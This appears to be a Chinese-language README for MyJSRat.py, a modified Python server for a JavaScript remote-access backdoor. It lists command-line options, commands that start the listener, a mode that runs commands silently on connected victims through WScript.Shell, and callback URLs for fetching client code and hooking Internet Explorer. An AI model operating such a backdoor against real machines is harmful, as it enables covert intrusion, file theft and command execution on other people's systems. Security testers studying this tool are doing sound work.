 # MyJSRat.py
## 0x00 JSbackdoor
关于javascript backdoor 请查看：
[JavaScript Backdoor](http://drops.wooyun.org/tips/11764)
[JavaScript Phishing](http://drops.wooyun.org/tips/12386)
[JSRat.ps1](https://gist.github.com/subTee/f1603fa5c15d5f8825c0)

## 0x01 说明
研究JSbackdoor 之后想着写一个py版的，后来发现已经有小伙伴写过了，地址如下：[JSRat-Py](https://github.com/Hood3dRob1n/JSRat-Py)

测试使用的时候，为了更加方便，对上面的这个脚本进行了修改，添加了`-c` 参数可以实现在客户端连接之后自动执行命令。具体使用方式如下：
```
JSRat Server
By: Evi1cg

Usage: MyJSRat.py [options]

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -i IP, --ip=IP        IP to Bind Server to (i.e. 192.168.0.69)
  -p PORT, --port=PORT  Port to Run Server on
  -u URL, --url=URL     URL to Initiate Client Connection (default: /connect)
  -f, --find-ip         Display Current Internal and External IP Addresses
  -c CMD, --command=CMD
                        auto Send command to client (No interaction)
  -v                    Enable Verbose Output
```

-f 参数可获取内外网ip地址：

![Alt text](./1459259057997.png)

脚本修改分为两个模式，交互模式以及执行命令模式。
1. 交互模式命令如下：
```
 python MyJSRat.py -i 192.168.1.101 -p 8080
```
>-u 为可选参数，为回连url地址。

交互模式下可进行文件上传、下载、删除、命令执行等。

2. 执行命令模式命令如下：
```
python MyJSRat.py -i 192.168.1.101 -p 8080 -c "whoami"
```
>执行命令模式下，会在获得shell之后自动执行指定命令，使用了`new ActiveXObject("WScript.Shell").Run(command,0,true)`,执行无回显，无弹框。

交互界面如下：

![Alt text](./1459259883470.png)

命令发送：

![Alt text](./1459260010566.png)

## 0x02 URL 说明
* http://192.168.1.101:8080/connect 默认回连地址
* http://192.168.1.101:8080/wtf 访问此链接获取客户端执行代码
* http://192.168.1.101:8080/hook 浏览器hook链接，适用于某些版本的IE





